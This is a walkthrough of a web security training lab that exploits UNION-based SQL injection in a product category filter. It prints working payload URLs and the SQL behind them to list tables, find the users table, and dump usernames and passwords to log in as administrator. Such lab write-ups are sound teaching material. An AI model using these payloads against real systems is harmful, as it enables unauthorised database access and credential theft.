 # Lab: SQL injection attack, listing the database contents on non-Oracle databases
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

## Examining a non Oracle database
List the tables of the database:
```sql
SELECT * FROM information_schema.tables
```

List the columns of a table called 'Users':
```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

## Solution
Determine the amount of columns for the UNION attack:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,null+--+
```
The structure seems like in the labs before. So we skip the datatype test at this point.

After that we query the tables of the database:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,table_name+from+information_schema.tables+--+
```

The corresponding SQL statement looks like this:
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,TABLE_NAME FROM information_schema.tables --
```

And gives some kind of the following response:
![Tables](../images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_0.png)

Scrolling through the entries, we find an interesting table: `users_aydwzp`

Investigating the columns of this table:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+null,column_name+from+information_schema.columns+where+table_name=%27users_aydwzp%27+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT NULL,COLUMN_NAME FROM information_schema.columns WHERE TABLE_NAME = 'users_aydwzp' -- 
```

The table contains the columns `password_aynwgj` and `username_rigeck`. Seems like that what we are looking for:
![Columns of user table](../images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_1.png)


In the last step we have to query the content of those columns:
```
https://0a8e005c048754418187e3b400ba00a8.web-security-academy.net/filter?category=Pets%27+union+select+username_rigeck,password_aynwgj+from+users_aydwzp+--+
```
```sql
SELECT name, description FROM products WHERE category = 'Pets' UNION SELECT username_rigeck,password_aynwgj FROM users_aydwzp -- 
```

As we see, we got our administrator login with the password `umdpkx1cqsd6dsijd3wo`.
![Found users](../images/SQL_injection_attack_listing_the_database_contents_on_non-Oracle_databases_2.png)

If we login with those credentials, the lab is solved.
